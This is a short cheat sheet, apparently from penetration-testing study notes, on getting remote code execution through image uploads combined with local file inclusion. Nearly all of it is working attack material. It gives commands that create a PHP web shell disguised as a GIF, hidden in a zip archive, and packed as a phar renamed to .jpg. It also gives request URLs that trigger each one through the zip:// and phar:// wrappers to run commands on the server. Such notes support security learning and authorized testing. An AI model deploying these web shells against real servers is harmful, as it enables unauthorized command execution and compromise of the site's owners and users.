 # File Upload

### Image upload

```shell-session
echo 'GIF8<?php system($_GET["cmd"]); ?>' > shell.gif
```

inspect the source code after uploading the image, we can get its URL

```
http://<SERVER_IP>:/index.php?language=./profile_images/shell.gif&cmd=id
```

### Zip Upload

```shell-session
echo '<?php system($_GET["cmd"]); ?>' > shell.php && zip shell.jpg shell.php
```

we can include it with the `zip` wrapper as (`zip://shell.jpg`), and then refer to any files within it with `#shell.php` (URL encoded)

```
http://<SERVER_IP>:/index.php?language=zip://./profile_images/shell.jpg%23shell.php&cmd=id
```

### Phar Upload

```php
<?php
$phar = new Phar('shell.phar');
$phar->startBuffering();
$phar->addFromString('shell.txt', '<?php system($_GET["cmd"]); ?>');
$phar->setStub('<?php __HALT_COMPILER(); ?>');

$phar->stopBuffering();
```

```shell-session
php --define phar.readonly=0 shell.php && mv shell.phar shell.jpg
```

Now, we should have a phar file called `shell.jpg`. Once we upload it to the web application, we can simply call it with `phar://` and provide its URL path, and then specify the phar sub-file with `/shell.txt` (URL encoded)

```
http://<SERVER_IP>:<PORT>/index.php?language=phar://./profile_images/shell.jpg%2Fshell.txt&cmd=id
```
